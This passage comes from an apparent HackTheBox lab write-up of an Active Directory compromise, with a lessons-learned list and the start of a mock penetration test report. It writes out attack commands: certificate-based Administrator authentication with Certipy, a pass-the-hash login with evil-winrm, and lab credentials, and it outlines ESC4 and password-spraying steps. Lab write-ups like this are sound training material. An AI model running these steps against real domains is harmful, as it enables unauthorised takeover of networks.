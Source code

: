 Authenticate as Administrator:  
```bash
certipy-ad auth -pfx administrator_dc01.pfx
```

Login as Administrator:  
```bash
evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```

Capture root flag:  
```bash
cd C:\Users\Administrator\Desktop
type root.txt
```

## Lessons Learned

- SMB shares can expose sensitive data like credentials in Excel files.  
- MSSQL misconfigurations, such as enabled `xp_cmdshell`, allow command execution.  
- Password reuse across accounts enables lateral movement.  
- ADCS misconfigurations (ESC4) can lead to domain compromise via certificate abuse.  
- Tools like `Impacket`, `Certipy`, and `SharpHound` are critical for AD enumeration and exploitation.  
- Thorough enumeration of files and configurations is key to uncovering escalation paths.

## Penetration Test Report

**Client:** HTB

**Engagement:** Penetration Test - Windows Active Directory Environment

**Date:** June 2025

**Consultant:** Hugo Leonor

### 1. Objective

Assess the security of the Windows Active Directory environment at `10.10.11.51`, identifying vulnerabilities leading to privilege escalation and Domain Admin compromise.

### 2. Scope

- **Target IP:** 10.10.11.51  
- **Services:** SMB, LDAP, Kerberos, MSSQL, WinRM  
- **Initial Access:** Provided credentials (`rose:KxEPkKe6R8su`)  

### 3. Methodology

Followed a structured Active Directory penetration test approach:  
- Reconnaissance with Nmap and SMB enumeration  
- Exploitation of SMB shares and MSSQL for credential extraction  
- Password spraying and lateral movement  
- ADCS abuse for privilege escalation  
- BloodHound analysis for domain enumeration  
